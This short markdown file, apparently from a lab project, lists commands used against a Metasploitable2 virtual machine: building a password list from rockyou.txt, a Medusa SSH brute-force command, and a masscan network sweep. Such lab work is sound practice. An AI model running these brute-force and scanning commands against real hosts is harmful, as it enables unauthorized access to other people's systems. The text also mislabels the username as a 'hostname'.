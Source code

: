 # Attack Tool Commands

## Description

This document contains the commands used to run the attack tools against services running on the Metasploitable2 virtual machine.

## Medusa

For each of the services tested, the hostname used is `msfadmin` and the password list used is `password_list.txt`. The password list was generated using using the first 30 passwords from the `rockyou.txt` password list with an additional password `msfadmin` added to the end of the list to generate a found password case.

The command used to generate the `password_list.txt` file is:

```bash
tail -n +10 rockyou.txt | head -n 30 > password_list.txt && echo "msfadmin" >> password_list.txt
```

```bash
# SSH Brute Force
medusa -h 192.168.1.100 -u msfadmin -P password_list.txt -M ssh -n 22

```

## Masscan

```bash
sudo masscan 192.168.1.0/24 -p21-80 --banners --source-ip 192.168.1.98 --interface eth1
```
